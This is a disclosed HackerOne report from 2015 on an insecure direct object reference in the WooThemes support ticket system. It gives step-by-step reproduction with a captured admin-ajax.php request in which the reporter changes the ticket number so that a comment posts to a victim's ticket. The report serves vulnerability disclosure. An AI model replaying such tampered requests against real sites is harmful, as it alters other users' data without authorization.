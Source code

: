# WooCommerce: Support Ticket indirect object reference

## Report Details
- **Report ID**: 91599
- **URL**: https://hackerone.com/reports/91599
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-10-01T10:14:32.410Z
- **Disclosed**: 2016-09-02T11:04:21.597Z

## Reporter
- **Username**: paresh_parmar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
Hi
there's no protection against Idor, so i can comment on anyone's Ticket.

___Reproduce Issue:____
1.Go Here: `https://www.woothemes.com/my-account/tickets/`
2.Create a new Ticket
suppose ticked id is : 340529
Comment something on 340529 Ticket, and capture that request In Burp suite.

here's the request:

`POST /wp-admin/admin-ajax.php HTTP/1.1
Host: www.woothemes.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:41.0) Gecko/20100101 Firefox/41.0
Referer: https://www.woothemes.com/my-account/tickets/?id=340529
Content-Length: 95
Cookie: cookies.....
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache`

`action=wc_zendesk_reply_ticket&security=e942b8f2d4&reply=HACKED!!!!!&number=___340529___&solved=false`


THATS MY TICKET, Now change ___number___ to victim's ticket id, and your comment will successfully added to victim's ticket.


Video Poc (unlisted): https://www.youtube.com/watch?v=bUEenDUoVfk&feature=youtu.be


thanks
paresh

## Attachments
No attachments
